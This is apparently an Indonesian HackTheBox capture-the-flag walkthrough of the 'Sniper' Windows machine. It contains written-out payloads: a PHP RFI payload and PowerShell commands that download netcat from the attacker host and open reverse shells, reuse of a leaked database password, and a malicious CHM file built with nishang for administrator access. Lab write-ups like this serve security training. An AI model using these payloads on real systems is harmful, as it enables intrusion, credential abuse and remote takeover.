








# Sniper (Windows)



Box Sniper dengan IP 10.10.10.151 dengan OS Windows *sigh* Windows... Tetapi dari box ini saya belajar sangat banyak tentang client side attack yang menurut saya sangat menarik.

### Enumeration 

Mari lakukan basic enumeration dengan nmap, hasil nmap menunjukkan

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 02:40 EST
Nmap scan report for 10.10.10.151
Host is up (0.26s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
 
Host script results:
|_clock-skew: 7h01m53s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-07T14:43:14
|_  start_date: N/A
 
TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   252.60 ms 10.10.14.1
2   254.10 ms 10.10.10.151
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.37 seconds
```

Ada banyak port yang terbuka seperti http, rpc, SMB mari kita melihat web service yang disajikan terlebih dahulu.



Pada awalnya tidak terlihat ada banyak yang bisa dilakukan, namun setelah enumeration beberapa waktu ditemukanlah login portal !



Penulis sudah mencoba melakukan login dengan basic credentials seperti admin:admin admin:password dll, namun tidak ada yang berhasil. Membuat custom wordlist juga sepertinya tidak berguna. Penulis masuk ke rabbit hole !



Pada page services, dan setelah berpindah ke page blog dalam bahasa inggris, nampaknya parameter ini vulnerable terhadap LFI. Mari kita coba !



Penulis menggunakan Burpsuite untuk melakukan intercept terhadap request dan memasukkannya kedalam repeater untuk memperhatikan behaviornya lebih mudah. Benar bisa dilakukan LFI, tapi saya tidak menemukan file yang menarik, dan tidak ada tempat untuk melakukan file upload di website ini. Mari kita coba untuk melakukan RFI.



RFI tidak me return apapun, berarti allow url include dimatikan. Namun ada cara untuk melakukan bypass url include yang dimatikan tersebut, saya mengambil referensi dari website

[http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

Blog diatas menunjukkan cara melakukan bypass terhadap larangan remote url inclusion dengan menggunakan smb serivce. Saya mengikuti setiap step di dalam blog tersebut dengan payload yang berbeda.

```
<?=
system("powershell IWR http://10.10.14.217:8000/nc64.exe -outfile \\Microsoft\\nc64.exe;\\Microsoft\\nc64.exe 10.10.14.217 1234 -e powershell.exe 2>&1")
?>
```

Payload ini akan mendownload netcat dari python server saya, dan menggunakan netcat tersebut untuk memberikan koneksi reverse shell.

```
PS C:\inetpub\wwwroot\blog> whoami
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\blog> dir
```

### User

Kita masuk sebagai iusr, dan menemukan config database yang menganduk credentials

```
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Kita juga mengetahui dari directory users terdapat user bernama Chris, mari kita coba dapatkan shell sebagai Chris. Cara untuk mengetahui ada user apa saja pada sebuah mesin salah satunya adalah dengan melakukan directory listing pada home directory. 

```
Import-Module 'Microsoft.Powershell.Security'
 
$pass = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
 
$cred = New-Object System.Management.Automation.PSCredential("SNIPER\Chris",$pass)
 
Invoke-Command -Computer Sniper -ScriptBlock { IWR -uri 10.10.14.217:8000/nc64.exe -outfile nc.exe } -Credential $cred
 
Invoke-Command -Computer Sniper -ScriptBlock { cmd /c nc.exe 10.10.14.217 1235 -e powershell.exe } -Credential $cred
```

Berhasil menjadi Chris

```
PS C:\Users\Chris\Documents> whoami
whoami
sniper\chris
PS C:\Users\Chris\Documents>
```

### Root

Mari kita lakukan privesc ke administrator



Ditemukan instructions.chm , chm adalah file help untuk OS windows. Namun ada vulnerability untuk menyembunyikan payload dan menjalankannya saat file .chm ini dibuka.

```
PS C:\Docs> cat note.txt
cat note.txt
Hi Chris,
	Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
 
Regards,
Sniper CEO.
```

Pada folder Docs terdapat note.txt yang menyuruh kita menyelesaikan pekerjaan kita dan meletakkan file .chm disini . Mari kita rakit payload .chm dan masukkan ke folder ini dengan harapan mendapatkan reverse shell sebagai administrator.

Kita akan menggunakan Out-CHM.ps1 oleh nishang

[https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)

Dengan panduan dari

[http://www.labofapenetrationtester.com/2014/11/powershell-for-client-side-attacks.html](http://www.labofapenetrationtester.com/2014/11/powershell-for-client-side-attacks.html)



```

Out-CHM -Payload 'C:\Users\Chris\Documents\nc.exe 10.10.14.217 8888 -e cmd' -HHCPath 'D:\Desktop\Petir Stuff\Tools\HTML Help Workshop\'
1
Out-CHM -Payload 'C:\Users\Chris\Documents\nc.exe 10.10.14.217 8888 -e cmd' -HHCPath 'D:\Desktop\Petir Stuff\Tools\HTML Help Workshop\'
```

Mari kita drop payload kita di Docs

```

2
3
C:\Windows\system32>whoami
whoami
sniper\administrator
```

Kita berhasil mendapatkan reverse shell sebagai administrator dengan menggunakan netcat !

# Rooted !